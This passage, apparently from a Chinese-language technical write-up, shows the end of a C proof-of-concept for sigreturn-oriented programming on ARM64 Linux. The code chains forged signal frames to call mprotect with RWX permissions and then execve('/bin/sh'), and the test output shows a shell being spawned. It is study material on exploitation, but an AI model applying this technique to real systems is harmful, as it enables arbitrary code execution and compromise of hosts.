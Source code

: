 ```
       3) next insn of 'svc' is a 'ret', 'ret' will redirect pc to sigreturn_addr (address of sigreturn)
       // for exec execve
       4) call sigreturn again, just set pc = 'sigreturn + 4', use that 'svc' to execute execve syscall
          execve will not return, so 'ret' insn is not needed in this case.
       pc = syscall_ret_addr is used in step 2) to call a mprotect and is next insn used to control the control flow.
       lr = sigreturn_addr is used in step 3) to chain mprotect with another sigreturn
       sp = prev_sigframe is used in step 4) as paramter of sigreturn to redirect control to next 'svc', aka execve.
    */
    sigframe_push_mprotect(next_sigframe, \
        ret & ~(0xfff), 0x1000, PROT_READ|PROT_WRITE|PROT_EXEC, \
        syscall_ret_addr, sigreturn_addr, prev_sigframe);
 
    vul_trigger(next_sigframe);
}
 
int main()
{
    show_maps();
 
    env_init();
 
    test_mprotect_wrapper();                /* mprotect and return normally */
 
    printf("[+] test mprotect RWX succeed!\n");
 
    //test_exec("/bin/sh", 1);         /* execve only */
 
    test_mprotect_exec();                     /* chain mprotext with a execve */
 
    return 0;
} 
```

  test case 输出如下:

```
Please press Enter to activate this console.  # 
# ./main 
00400000-00479000 r-xp 00000000 00:02 5                                  /main
00489000-0048a000 r--p 00079000 00:02 5                                  /main
0048a000-0048c000 rw-p 0007a000 00:02 5                                  /main
0048c000-0048f000 rw-p 00000000 00:00 0 
2dedf000-2df01000 rw-p 00000000 00:00 0                                  [heap]
ffffbaf5a000-ffffbaf5c000 r--p 00000000 00:00 0                          [vvar]
ffffbaf5c000-ffffbaf5d000 r-xp 00000000 00:00 0                          [vdso]
ffffccde0000-ffffcce01000 rw-p 00000000 00:00 0                          [stack]
 
[+] sigreturn addr:0xffffbaf5c85c, syscall_ret addr:0x4006e4
[+] add to sigframe(0x00ffffccdff100): mprotect(0xffffccdff000, 1000, 7); 
[+][kernel] mprotect called with addr:0000ffffccdff000, len:1000, prot:7                  ## 内核日志，mprotect调用时打印信息
[+] test mprotect RWX succeed!
[+] add to sigframe(0x0000002dee13d0): execve(/bin/sh, 0x2dee2620, (nil)); 
[+] add to sigframe(0x00ffffccdff0f0): mprotect(0x400000, 1000, 7); 
[+][kernel] mprotect called with addr:0000000000400000, len:1000, prot:7                  ## 内核日志，mprotect调用时打印信息
# exit                                                                                     ## 两个exit退出, /bin/sh执行成功
# exit
Please press Enter to activate this console.
```